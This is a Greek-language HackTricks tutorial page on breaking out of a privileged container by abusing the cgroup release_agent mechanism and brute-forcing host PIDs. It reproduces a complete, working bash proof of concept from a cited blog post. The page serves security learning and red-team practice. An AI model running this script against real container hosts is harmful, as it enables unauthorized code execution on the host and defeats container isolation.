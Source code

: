 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

Για περισσότερες λεπτομέρειες **ελέγξτε την ανάρτηση του blog από [https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html](https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html)**. Αυτό είναι απλώς μια περίληψη:

Η τεχνική περιγράφει μια μέθοδο για **την εκτέλεση κώδικα του host από μέσα σε ένα container**, ξεπερνώντας τις προκλήσεις που θέτουν οι ρυθμίσεις του storage-driver που θολώνουν τη διαδρομή του filesystem του container στον host, όπως οι Kata Containers ή συγκεκριμένες ρυθμίσεις `devicemapper`.

Βασικά βήματα:

1. **Εντοπισμός Ταυτοτήτων Διαδικασιών (PIDs):** Χρησιμοποιώντας τον συμβολικό σύνδεσμο `/proc/<pid>/root` στο ψευδο-σύστημα αρχείων Linux, οποιοδήποτε αρχείο εντός του container μπορεί να προσπελαστεί σε σχέση με το filesystem του host. Αυτό παρακάμπτει την ανάγκη να γνωρίζουμε τη διαδρομή του filesystem του container στον host.
2. **PID Bashing:** Χρησιμοποιείται μια προσέγγιση brute force για να αναζητηθούν PIDs στον host. Αυτό γίνεται ελέγχοντας διαδοχικά την παρουσία ενός συγκεκριμένου αρχείου στο `/proc/<pid>/root/<file>`. Όταν βρεθεί το αρχείο, υποδεικνύει ότι η αντίστοιχη PID ανήκει σε μια διαδικασία που εκτελείται μέσα στο στοχευμένο container.
3. **Ενεργοποίηση Εκτέλεσης:** Η μαντεμένη διαδρομή PID γράφεται στο αρχείο `cgroups release_agent`. Αυτή η ενέργεια ενεργοποιεί την εκτέλεση του `release_agent`. Η επιτυχία αυτού του βήματος επιβεβαιώνεται ελέγχοντας τη δημιουργία ενός αρχείου εξόδου.

### Διαδικασία Εκμετάλλευσης

Η διαδικασία εκμετάλλευσης περιλαμβάνει ένα πιο λεπτομερές σύνολο ενεργειών, με στόχο την εκτέλεση ενός payload στον host μαντεύοντας τη σωστή PID μιας διαδικασίας που εκτελείται μέσα στο container. Να πώς εξελίσσεται:

1. **Αρχικοποίηση Περιβάλλοντος:** Ένα script payload (`payload.sh`) προετοιμάζεται στον host και δημιουργείται ένας μοναδικός φάκελος για την παρακολούθηση cgroup.
2. **Προετοιμασία Payload:** Το script payload, το οποίο περιέχει τις εντολές που θα εκτελούνται στον host, γράφεται και καθίσταται εκτελέσιμο.
3. **Ρύθμιση Cgroup:** Το cgroup τοποθετείται και ρυθμίζεται. Η σημαία `notify_on_release` ρυθμίζεται για να διασφαλίσει ότι το payload εκτελείται όταν το cgroup απελευθερωθεί.
4. **Brute Force PID:** Ένας βρόχος επαναλαμβάνει τις πιθανές PIDs, γράφοντας κάθε μαντεμένη PID στο αρχείο `release_agent`. Αυτό ουσιαστικά ορίζει το script payload ως το `release_agent`.
5. **Ενεργοποίηση και Έλεγχος Εκτέλεσης:** Για κάθε PID, το `cgroup.procs` του cgroup γράφεται, ενεργοποιώντας την εκτέλεση του `release_agent` αν η PID είναι σωστή. Ο βρόχος συνεχίζεται μέχρι να βρεθεί η έξοδος του script payload, υποδεικνύοντας επιτυχημένη εκτέλεση.

PoC από την ανάρτηση του blog:
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
